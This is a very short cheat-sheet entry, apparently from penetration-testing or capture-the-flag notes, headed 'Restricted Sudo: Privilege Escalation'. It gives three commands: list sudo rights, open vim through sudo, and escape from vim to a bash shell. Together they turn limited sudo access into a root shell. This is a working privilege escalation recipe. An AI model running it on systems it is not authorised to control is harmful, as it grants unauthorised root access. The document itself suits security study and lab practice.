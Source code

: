 # Restricted Sudo: Privilege Escalation

    sudo -l
    sudo vim <target_filename>
    :!/bin/bash
